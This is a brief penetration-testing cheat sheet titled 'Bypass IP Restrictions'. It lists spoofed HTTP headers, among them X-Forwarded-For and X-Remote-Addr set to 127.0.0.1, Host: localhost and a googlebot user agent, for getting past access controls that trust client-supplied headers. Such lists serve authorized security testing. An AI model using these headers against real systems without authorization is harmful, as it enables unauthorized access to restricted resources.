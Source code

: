 # Bypass IP Restrictions

### Example

<figure><img src="../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

### Try the following headers

```bash
X-Forwarded-For: 127.0.0.1
X-Forwarded-For: <Victim's IP>
X-Forwarded-For: 0000::1
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

```bash
Host: localhost
User-Agent: googlebot
```
